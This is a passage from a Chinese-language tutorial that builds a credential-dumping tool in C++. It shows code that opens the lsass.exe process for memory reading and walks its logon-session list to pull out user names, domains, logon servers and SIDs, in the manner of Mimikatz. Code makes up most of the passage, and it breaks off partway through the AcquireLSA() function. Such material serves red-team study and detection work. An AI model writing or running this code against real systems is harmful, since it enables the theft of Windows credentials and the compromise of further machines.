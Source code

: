 ```c++
							sessionData.LogonServer = (PUNICODE_STRING)((PBYTE)aBuffer.address + helper->offsetToLogonServer);

							GetUnicodeString(sessionData.UserName, cLsass.hProcess);
							GetUnicodeString(sessionData.LogonDomain, cLsass.hProcess);
							GetUnicodeString(sessionData.LogonServer, cLsass.hProcess);

							GetSid(&sessionData.pSid, cLsass.hProcess);

							status = LsaLogonData(&sessionData);

							if (sessionData.UserName->Buffer)
								LocalFree(sessionData.UserName->Buffer);
							if (sessionData.LogonDomain->Buffer)
								LocalFree(sessionData.LogonDomain->Buffer);
							if (sessionData.LogonServer->Buffer)
								LocalFree(sessionData.LogonServer->Buffer);
							if (sessionData.pSid)
								LocalFree(sessionData.pSid);

							pStruct = ((PLIST_ENTRY)(aBuffer.address))->Flink;
						}
						else 
							break;
					}
				}
				LocalFree(aBuffer.address);
			}
		}
	}
	return status;
}
```

在 `EnumerateLSA()` 中首先会调用自定义函数 `AcquireLSA()`，该函数的作用是提取 lsass.exe 的进程信息。

## 2.1 提取 lsass.exe 进程信息

编写 `AcquireLSA()` 函数，该函数定义如下。函数上面的 `LsassPackages[]` 是一个自定义的 `LSA_PACKAGE` 结构体数组，用于保存程序用到的 LSA 身份验证包的基本配置信息。如下所示，这里仅保存了一个 `Lsass_Msv1_0_Package` 成员，用于保存当前程序需要用到的 lsasrv.dll 模块名称、模块地址和映像文件大小等信息。

```c++
LSA_PACKAGE Lsass_Msv1_0_Package = { TRUE, L"lsasrv.dll", { { NULL, 0, NULL }, FALSE, FALSE } };
```

`cLsass` 是一个自定义的 `LSA_CONTEXT` 结构体，用于保存 lsass.exe 进程句柄以及系统版本信息。

```c++
const PLSA_PACKAGE LsassPackages[] = {
	&Lsass_Msv1_0_Package,
};

LSA_CONTEXT cLsass = { NULL, {0, 0, 0} };

PLIST_ENTRY LogonSessionList = NULL;
PULONG LogonSessionListCount = NULL;

BOOL AcquireLSA()
{
	BOOL status = FALSE;
	DWORD pid;

	if (pid = GetProcessIdByName(L"lsass.exe"))
		cLsass.hProcess = OpenProcess(PROCESS_VM_READ | ((cLsass.osContext.MajorVersion < 6) ? PROCESS_QUERY_INFORMATION : PROCESS_QUERY_LIMITED_INFORMATION), FALSE, pid);
```